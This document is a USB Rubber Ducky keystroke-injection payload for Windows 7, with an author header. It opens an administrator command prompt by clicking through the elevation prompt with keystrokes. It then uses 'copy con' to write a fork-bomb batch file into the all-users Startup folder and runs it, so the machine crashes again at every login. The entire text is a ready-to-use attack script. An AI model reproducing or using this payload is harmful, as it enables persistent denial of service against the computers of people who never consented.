 Author: Jay Kruer with mad props to Darren Kitchen for helping me out with con copy, UAC bypass & file saving issues at DerbyCon :D
Duckencoder: 1.0
Target: Windows 7
Description: Opens a command prompt as administrator with run, uses con copy to create fork bomb batch(if you don't know what this is
then see: http://en.wikipedia.org/wiki/Fork_bomb). Then saves the .bat file under the start up program folder and runs it the first time.

CONTROL ESCAPE
DELAY 200
STRING cmd
DELAY 200
MENU
DELAY 100
STRING a
ENTER
DELAY 200
LEFT
ENTER
DELAY 1000
STRING cd C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\
ENTER
STRING copy con a.bat
ENTER
STRING @echo off
ENTER
STRING :START
ENTER
STRING start a.bat 
ENTER
STRING GOTO START
ENTER
CONTROL z
ENTER
STRING a.bat
ENTER
ALT F4